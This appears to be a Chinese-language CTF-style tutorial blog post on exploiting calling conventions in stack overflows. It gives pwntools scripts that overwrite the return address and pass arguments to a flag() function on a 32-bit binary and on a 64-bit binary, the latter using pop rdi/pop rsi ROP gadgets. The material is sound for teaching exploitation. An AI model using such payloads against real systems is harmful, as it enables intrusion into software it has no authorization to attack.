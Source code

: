 ```yaml
---
title: '攻击调用约定'
date: '2023-08-11'
lastmod: '2023-08-18'
tags: ['PWN', 'Stack']
draft: false
summary: '利用调用约定'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

<Download name="exploiting_with_params.zip" href="/static/assets/exploiting_with_params.zip" type="Binary" />

## 0x01 32-bit

程序期望在执行函数之前栈是这样的布局：

<center>
  <Image alt="origin" src="https://s11.ax1x.com/2024/02/09/pF3MZAe.png" width={406} height={62} />
</center>

那么我们为什么不这样提供呢？除了函数之外，我们还传递返回地址和参数：

<center>
  <Image alt="new" src="https://s11.ax1x.com/2024/02/09/pF3Ma3n.png" width={535} height={62} />
</center>

`flag()` 地址之后的所有内容都将成为下一个函数的栈帧的一部分，因为它 **预期** 在那里——只是我们没有使用 `push` 指令，而是手动覆盖它们。

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

payload = b'A' * 52         # Padding 到 EIP
payload += p32(0x080491c7)  # flag() 的地址
payload += p32(0x0)         # 避免异常
payload += p32(0xdeadc0de)  # 第一个参数
payload += p32(0xc0ded00d)  # 第二个参数

p.sendline(payload)

p.interactive()
```

## 0x02 64-bit

相同的逻辑，只不过我们必须利用之前讨论过的 gadgets 来填充所需的寄存器（在本例中为 `rdi` 和 `rsi`，因为我们有两个参数）。

我们必须在 *调用函数之前* 填充寄存器：

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9

payload = b'A' * 56          # Padding 到 RIP
payload += p64(POP_RDI)      # pop rdi ; ret
payload += p64(0xdeadc0de)   # 进入 rdi 的值 - 第一个参数
payload += p64(POP_RSI_R15)  # pop rsi ; pop r15 ; ret
payload += p64(0xc0ded00d)   # 进入 rsi 的值 - 第二个参数
payload += p64(0x0)          # 进入 r15 的值 - 避免异常
payload += p64(0x40116f)     # flag() 的地址
payload += p64(0x0)          # 避免异常

p.sendline(payload)

p.interactive()
```

<Note>
  在返回地址后面加 0 本质是为了让程序有个返回的地方，防止异常，不然会返回到下面奇奇怪怪的东西；有时候也可能是栈对齐，64-bit 程序执行 `system` 时会有一个检查，确保栈指针是指着 0 的（结尾是 0），没有对齐的话就不能执行。<br style={{ marginBottom: '0.5em' }} />通常 0 可以替换为任意值，效果是一样的。只是习惯加 0。
</Note>

